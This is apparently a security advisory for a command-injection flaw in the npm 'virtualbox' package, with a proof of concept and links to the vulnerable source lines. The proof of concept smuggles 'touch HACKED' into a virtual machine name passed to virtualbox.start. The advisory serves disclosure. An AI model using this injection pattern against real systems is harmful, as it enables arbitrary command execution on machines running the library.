 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var virtualbox = require('virtualbox');

virtualbox.start('machine_name"; touch HACKED; # ', true, function start_callback(error) {
	if (error) throw error;
	console.log("Virtual Machine has started WITH A GUI!");
});
```
2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:
```bash
npm i virtualbox # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/Node-Virtualization/node-virtualbox/issues/66)
 - [GitHub Permalink #1](https://github.com/Node-Virtualization/node-virtualbox/blob/master/lib/virtualbox.js#L58)
 -  [GitHub Permalink #2](https://github.com/Node-Virtualization/node-virtualbox/blob/master/lib/virtualbox.js#L114)
 -  [GitHub Permalink #3](https://github.com/Node-Virtualization/node-virtualbox/blob/master/lib/virtualbox.js#L63)
 -  [GitHub Permalink #4](https://github.com/Node-Virtualization/node-virtualbox/blob/master/lib/virtualbox.js#L136)
 -  [GitHub Permalink #5](https://github.com/Node-Virtualization/node-virtualbox/blob/master/lib/virtualbox.js#L121)